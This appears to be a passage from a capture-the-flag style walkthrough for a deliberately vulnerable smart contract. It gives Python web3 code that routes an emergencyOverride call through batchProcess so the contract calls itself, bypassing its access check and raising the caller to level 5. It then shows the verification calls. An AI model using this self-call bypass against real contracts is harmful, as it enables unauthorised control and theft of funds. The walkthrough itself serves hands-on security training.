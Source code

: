 Verify status:

```python
contract.functions.getUserAuthInfo(YOUR_ADDRESS).call()
# Returns: (authorized=True, level=1, cooldownEnds=..., hasExploited=False)
```

---

### 3. Exploiting Access Control Bypass

**The exploit chain:**

Craft the `emergencyOverride` call data:

```python
emergency_call_data = contract.encode_abi(
    'emergencyOverride',
    args=[attacker_address, 5]
)
```

Use `batchProcess` to call the contract as itself:

```python
targets = [contract_address]
data = [emergency_call_data]

contract.functions.batchProcess(targets, data).transact()
```

**What happens:**
- Your transaction calls `batchProcess`
- `batchProcess` makes a call to the contract itself with the crafted data
- When `emergencyOverride` executes, `msg.sender == address(this)` ✓
- Access control check passes!
- Your authorization level is set to 5
- `exploitUsed[msg.sender]` is set to true

---

### 4. Verification

Check exploitation status:

```python
contract.functions.hasExploitedVulnerability(YOUR_ADDRESS).call()
# Returns: True

contract.functions.getUserAuthInfo(YOUR_ADDRESS).call()
# Returns: (authorized=True, level=5, ..., hasExploited=True)
```

**Phase 1 Complete!** You now have level 5 authorization. Visit the web app at `localhost:3000/phase1` to verify your Phase 1 completion and gain access to Phase 2 contract details.

---
